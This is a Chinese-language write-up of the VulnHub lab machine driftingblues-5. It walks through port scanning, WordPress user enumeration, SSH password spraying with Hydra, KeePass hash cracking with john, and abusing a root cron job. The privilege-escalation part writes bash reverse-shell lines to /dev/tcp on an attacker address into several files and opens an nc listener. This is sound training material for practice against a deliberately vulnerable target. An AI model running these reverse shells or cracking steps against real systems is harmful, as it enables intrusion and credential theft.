# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate 10000 192.168.64.0/24
```

靶机的IP地址是：`192.168.64.31`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap -sS -sV -p- --max-rate 10000 192.168.64.31 -oA nmap-scan/syn
```


**TCPconnection扫描**
```shell
nmap -sT -sV -p- --max-rate 10000 192.168.64.31 -oA nmap-scan/tcp
```


**UDP扫描**
```shell
nmap -sU -sV --top-ports 100 --max-rate 10000 192.168.64.31 -oA nmap-scan/udp
```


**nmap默认脚本扫描**
```shell
nmap -sV -sC -O -p 2,22,80 192.168.64.31 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap -sV -O --script vuln -p 2,22,80 192.168.64.31 -oA nmap-scan/vuln
```
有很多信息。

## 1.3 22端口信息收集
```shell
nmap -sV --script ssh-auth-methods.nse,ssh-hostkey.nse -p 22 192.168.64.31
```


## 1.4 80端口信息收集
**访问`http://192.168.64.31`**


在网页的最下面一看就知道是wordpress.

**扫描一下wordpress**
```shell
wpscan --url http://192.168.64.31 --enumerate vp,vt,cb,u --plugins-detection passive --max-threads 2
```
```text
[+] XML-RPC seems to be enabled: http://192.168.64.31/xmlrpc.php
[+] Upload directory has listing enabled: http://192.168.64.31/wp-content/uploads/
[+] WordPress version 6.9.4 identified (Latest, released on 2026-03-11).
[+] WordPress theme in use: twentytwentyone

[i] User(s) Identified:
[+] abuzerkomurcu
[+] gill
[+] collins
[+] satanic
[+] gadd
```

**访问`http://192.168.64.31/wp-content/uploads`**
这里是一些jpg图片，可以考虑图片隐写。
```shell
stegseek < img.jpg > /usr/share/wordlists/rockyou.txt
exiftool < img.jpg >
binwalk < img.jpg >
```

提供了一个ssh密码：`59583hello` (里面可能有大小写问题)

**确认是否可以使用xmlrpc的`Multicall()`**

结合上面的wordpress版本，应该是不能使用`Multicall()`进行暴力破解了，xmlrpc破解应该是不行的。

**再扫描一下目录/文件**
```shell
gobuster dir --url http://192.168.64.31 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,php,html,git,txt,bak -db
```

上面没什么信息。

---

# 2.建立系统立足点

**使用ssh，尝试登陆**
```shell
hydra -L users.txt -p 59583hello ssh://192.168.64.31 -V -f
```

可以得到，
- username: `gill`
- password: `59583hello`

**登陆用户`gill`**


---

# 3.系统提权
**查看当前用户目录下有什么文件**

有一个`keyfile.kdbx`的文件, 需要主密钥文件来解密。

**寻找关键文件**
```shell
find / -perm -4000 -type f 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /run -o -path /etc -o -path /lib -o -path /dev -o -path /usr -o -path /var/lib -o -path /boot \) -prune -o -name "*bak*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /run -o -path /etc -o -path /lib -o -path /dev -o -path /usr -o -path /var/lib -o -path /boot \) -prune -o -name "*back*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /run -o -path /etc -o -path /lib -o -path /dev -o -path /usr -o -path /var/lib -o -path /boot \) -prune -o -name "*pass*" 2>/dev/null
find / \( -path /sys -o -path /proc -o -path /run -o -path /etc -o -path /lib -o -path /dev -o -path /usr -o -path /var/lib -o -path /boot \) -prune -o -name "*key*" 2>/dev/null
```
可以发现一个`/keyfolder`的文件夹, 去里面看看其实什么也没有。🌚

**寻找root权限运行命名**


上面扫出来的是5个wordpress用户名，不妨去破解一下wordpress的用户，先用网站构造小字典，如果不行就使用rockyou.txt破解，
```shell
# 构造字典
cewl -v -m 4 -d 3 -w sw.txt --with-numbers http://192.168.64.31
# 破解
wpscan --url http://192.168.64.31 --usernames users.txt --passwords sw.txt
```
nice! 可以破解出一个，
- username: `gill`
- password: `interchangeable`

**登陆wordpress去看看**

查看了半天，勾八，没发现什么。🌚

**那用john暴力破解那个密码库文件**
```shell
# 提取hash值
keepass2john keyfile.kdbx > keyfile.hash
# 使用john开始撞
john --wordlist=/usr/share/wordlists/rockyou.txt keyfile.hash
```

nice! 真的破解出来了。

**获取里面的'密码信息'**



啥东西也没有。🌚  
有没有可能一开始出来的就是密码呢？尝试一下！
吐血 😡 都不是

前面有没有遗漏啊，Oh my GOD. 去检查一下。
再仔细查看一下上面那个 */keyfolder*,

这个文件夹属于root用户，但是其他用户有rwx权限，可是里面啥也没有啊。

下载一个*pspy64*脚本文件
```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

然后在kali上面打开80端口
```shell
pyhon3 -m http.server 80
```
```shell
# 供靶机获取文件
wget http://192.168.64.2/pspy64
# 添加执行权限
chmod 700 pspy64
# 执行脚本
./pspy64
```
可以看到一下内容，

明显可以看到root用户有一个定时脚本key.sh在运行，但是我们看不到里面具体在干啥。
那有没有可能，这个*key.sh*会同步 */root/.ssh* 与 */keyfolder* 里面的文件？可以试一下，(正好 */home/gill/.ssh* 里面有`id_rsa`和`id_rsa.pub`)
```shell
cd /keyfolder
touch authorized_keys
cat /home/gill/.ssh/id_rsa.pub > /keyfolder/authorized_keys
```
盯着pspy64显示，运行了之后就是执行，
```shell
ssh root@127.0.0.1
```
算了，还是不行。🌚

从上面的`keyfile.kdbx`里面得到了一些名字，说是什么"keyfile". 不会就是把这些文件放进 */keyfolder* 里面吧，先找一下系统上面有没有这样名字的文件，
```shell
find / -name "zakkwylde" 2>/dev/null
find / -name "buddyretard" 2>/dev/null
find / -name "2real4surreal" 2>/dev/null
find / -name "closet313" 2>/dev/null
find / -name "fracturedocean" 2>/dev/null
find / -name "exalted" 2>/dev/null
```

没有这样的文件。那应该要我们自己创建，问题来了：需要什么权限？文件内容是什么呢？
权限就直接给"777"; 内容就是一律`/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1` (要有想象力😜)

kali端启动监听，
```shell
nc -lvnp 4444
```

```shell
mkdir keyfiles
cd keyfiles
touch zakkwylde buddyretard 2real4surreal closet313 fracturedocean exalted
chmod 777 zakkwylde
chmod 777 buddyretard
chmod 777 2real4surreal
chmod 777 closet313
chmod 777 fracturedocean
chmod 777 exalted
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > zakkwylde
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > buddyretard
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > 2real4surreal
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > closet313
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > fracturedocean
echo '/bin/bash -i >& /dev/tcp/192.168.64.2/4444 0>&1' > exalted
cp ./* /keyfolder
```
盯着*pspy64*页面，等执行了之后，去查看一下，没有建立反弹连接。🌚 这到底是咋回事啊？？！！艹

难道一次只能放一个文件, 就像密码一样？*/keyfolder*文件夹里面只能有一个文件？试试
我每个都试了一遍，没有什么反弹连接的建立，不过当我试到*fracturedocean*的时候，在同一个目录下下面好像出现了一个额外的文件：`rootcreds.txt`
看看，

真的有结果，md 震惊我一整年🌝
那现在应该就是root用户的密码了吧，艹
阿弥陀佛 阿弥陀佛🙏
试过了用ssh连接是连不上root用户的（远程和本地）




---
---

# 硬件与软件平台
## 硬件
- Apple Macbook pro M1-Pro `32G 512G`
- `macOS 14.8.5`
- `UTM虚拟机平台`

## 软件
kali
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- `Arm64`

靶机driftingblues-5: 
- `https://www.vulnhub.com/entry/driftingblues-5,662/`
- IP: `192.168.64.31`

---

> 水平有限，有不足、错误之处欢迎指出。🧐